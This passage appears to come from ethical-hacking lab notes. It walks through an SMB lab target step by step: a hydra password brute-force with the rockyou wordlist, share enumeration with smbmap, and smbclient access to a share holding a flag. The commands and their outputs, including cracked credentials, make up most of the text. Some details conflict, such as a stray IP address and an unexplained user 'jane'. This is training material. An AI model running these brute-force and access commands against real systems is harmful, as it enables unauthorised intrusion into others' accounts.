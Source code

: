 {% content-ref url="http://127.0.0.1:5000/s/iS3hadq7jVFgSa8k5wRA/pratical-ethical-hacker-notes/hydra" %}
[Hydra](http://127.0.0.1:5000/s/iS3hadq7jVFgSa8k5wRA/pratical-ethical-hacker-notes/hydra)
{% endcontent-ref %}

> [**`hydra`**](https://github.com/vanhauser-thc/thc-hydra) - tool to guess/crack valid login/password pairs

* Use `hydra` tool to find _admin_ user password

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.174.58.6 smb
```

```bash
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking smb://192.174.58.6:445/
[445][smb] host: 192.174.58.6   login: admin   password: password1
1 of 1 target successfully completed, 1 valid password found
```

> 📌 _admin_'s password is `password1`

* Find `smb shares` using found credentials

```bash
smbmap -u admin -p password1 -H 192.174.58.6
```

```bash
[+] Finding open SMB ports....
[+] User SMB session establishd on 192.174.58.6...
[+] IP: 192.174.58.6:445        Name: target-1                                          
   Disk     Permissions
   ----     -----------
   shawn    READ, WRITE
   nancy    READ ONLY
   admin    READ, WRITE
   IPC$     NO ACCESS
```

> 📌 _Read-only_ share is `nancy`

```bash
smbclient -L 192.28.157.6 -U jane
# Use "abc123" password
```

```bash
smbclient //192.174.58.6/jane -U jane
```

```bash
smb: \> ls
  .      D  0  Tue Nov 27 19:25:12 2018
  ..     D  0  Tue Nov 27 19:25:12 2018
  admin  D  0  Tue Nov 27 19:25:12 2018
  logs   D  0  Tue Nov 27 19:25:12 2018
  flag   D  0  Tue Nov 27 19:25:12 2018
  1981084628 blocks of size 1024. 48016456 blocks available
smb: \> pwd
Current directory is \\192.174.58.6\jane\
```
